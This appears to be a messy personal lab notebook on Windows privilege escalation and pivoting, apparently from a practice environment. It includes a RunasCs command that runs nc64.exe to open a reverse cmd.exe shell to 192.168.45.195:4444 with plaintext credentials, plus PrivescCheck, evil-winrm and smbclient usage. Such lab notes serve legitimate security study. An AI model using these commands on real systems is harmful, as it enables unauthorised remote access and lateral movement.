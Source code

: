 [[RunasCs]]
[[WerTrigger]]
[[chisel]]

```
.\RunasCs.exe thecybergeek winniethepooh "C:\xampp\htdocs\nc64.exe 192.168.45.195 4444 -e cmd.exe" -t 0
```
move from apache to thecybergeek


```
PS C:\Users\thecybergeek\Desktop> sc.exe qc MySQL
sc.exe qc MySQL
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: MySQL
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\xampp\mysql\bin\mysqld.exe MySQL
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : MySQL
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
PS C:\Users\thecybergeek\Desktop>
```
`sc.exe` stands for **Service Control** —  
it’s a **Windows command-line tool** used to manage the **Windows Service Control Manager (SCM)**.
|`sc qc`|

|                               |
| ----------------------------- |
| **Queries the configuration** |

LocalSystem  ?  it is admin




ps1 ans ps2 are module, need impordt first

```
PS: C:\xampp\htdocs\tmp> Import-Module .\PrivescCheck.ps1

PS: C:\xampp\htdocs\tmp> Invoke-PrivescCheck -Extended
```

 for MySQL if SSL is required
 
 pivoting git:(main) ✗  mysql -u root -h 127.0.0.1
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
➜  pivoting git:(main) ✗ mysql -u root -h 127.0.0.1 --ssl-mode=DISABLED

mysql: unknown variable 'ssl-mode=DISABLED'
➜  pivoting git:(main) ✗ mysql -u root -h 127.0.0.1 --ssl-mode=PREFERRED

mysql: unknown variable 'ssl-mode=PREFERRED'
➜  pivoting git:(main) ✗ mysql -u root -h 127.0.0.1 --skip-ssl
[[RunasCs]]

Welcome to the MariaDB monitor.  Commands end with ; or \g.


is used to display detailed information about **active network connections** and **listening ports** on your system.

since we find a db, so we check if a db is running, mysql 3306

[[netstat]]

```
netstat -ano

```
  
[[evil-winrm]]


how to use MySQL cmd


To use **Evil-WinRM** (a tool for connecting to Windows Remote Management services), the following **ports must be open** on the target Windows machine:

---

### **Required Ports**

1. **WinRM (HTTP)** → **Port 5985** (Default for unencrypted HTTP traffic).
2. **WinRM (HTTPS)** → **Port 5986** (Default for encrypted HTTPS traffic).

- If the target uses **HTTPS (5986)**, add `**S**`:
    
    ```Plain
    bashCopy
    evil-winrm -i <TARGET_IP> -u <USERNAME> -p <PASSWORD> -S
    ```
    

```Shell
smbclient //$IP/WebApp -U thecybergeek%winniethepooh
```

```Plain
cmd /c sc qc Mysql

```

breaks down as follows:

- `**cmd /c**`: This tells Windows to open a new command prompt, run the command that follows, and then terminate the command prompt.
- `**sc**`: This is the Service Control command-line utility in Windows, used to communicate with the Service Control Manager and services.
- `**qc**`: This is a subcommand of `**sc**` that stands for **Query Configuration**. It retrieves and displays the configuration information of a specified Windows service.
- `**Mysql**`: This is the name of the service you want to query. In your case, it’s the MySQL service installed by XAMPP.
